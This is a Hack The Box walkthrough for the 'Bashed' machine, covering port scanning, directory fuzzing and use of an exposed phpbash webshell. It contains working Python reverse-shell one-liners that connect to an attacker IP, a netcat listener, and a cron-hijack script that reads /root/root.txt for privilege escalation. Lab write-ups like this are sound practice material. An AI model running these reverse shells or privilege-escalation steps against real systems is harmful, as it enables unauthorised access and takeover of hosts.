# Hack The Box: Bashed

Nmap scans 

```zsh
nmap -sS -p- -Pn -v 10.10.10.68
```
We will see that only port 80 is open. So that is our way in. It shows about phpbash a webshell which can be used where there is no reverse shell possible.

We can do a dirsearch to fuzz the directories.

```zsh
 python3 dirsearch.py -u http://10.10.10.68 -e r -R 3
 ```

This looks interesting:

```
[02:33:31] 200 -   14B  - /dev/
```
Once you go there: You will have a phpbash.php. Click on the link and then proceed to have a webshell. To get a reverse shell from this a lot of methods failed. 

Do a sudo -l and see that sudo can be executed without password by scriptmanager which is a user. Hence we get a shell as scriptmanager using

```
sudo -u scriptmanager python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
Start a listener and you will have a reverse shell

```zsh
rlwrap nc -lvnp 443
```

Now ```sudo -l ``` will not work for you as it needs password. ```/scripts``` looked fishy.

On doing a ```cat``` on both files. You will see the ```test.py``` has a python code which prints something inside ```test.txt``` and doing ls -lah you will see ```test.txt``` belongs to root. It means something is running as a cron. Remove the test.txt and see it will comeback again. So I wrote another ```read.py``` to see if it will read the ```root.txt``` and opened the file to see it was there.

Contents of ```readme.py```

```python
txt = open("/root/root.txt")
txt1 = txt.read() 
txt.close()
txt = open("test.txt", "w")
txt.truncate()
txt.write(txt1)
```

And if you want a reverse shell.

Contents of ```shell.py```

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```
Also, I later checked that there was a cronjob running which was doing this.

```
cat root                                       
# DO NOT EDIT THIS FILE - edit the master and reinstall.       
# (/tmp/crontab.igz05b/crontab installed on Mon Dec  4 17:53:17 2017) 
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)                   
* * * * * cd /scripts; for f in *.py; do python "$f"; done
```
Simple !	